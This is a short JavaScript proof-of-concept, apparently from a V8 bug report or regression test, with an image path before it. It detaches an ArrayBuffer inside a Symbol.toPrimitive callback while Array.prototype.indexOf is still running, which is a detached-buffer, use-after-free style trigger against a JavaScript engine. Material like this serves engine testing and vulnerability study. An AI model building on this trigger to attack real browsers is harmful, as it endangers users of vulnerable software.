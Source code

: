 
var buf = new ArrayBuffer(0x10000);
var arr2 = new Uint8Array(buf).fill(55);
var tmp = {};
tmp[Symbol.toPrimitive] = function () {
  %ArrayBufferNeuter(arr2.buffer)
  var arr3 = new Uint8Array(0x800).fill(0xfc);
  return 0;
};

print(Array.prototype.indexOf.call(arr2, 0x00, tmp));

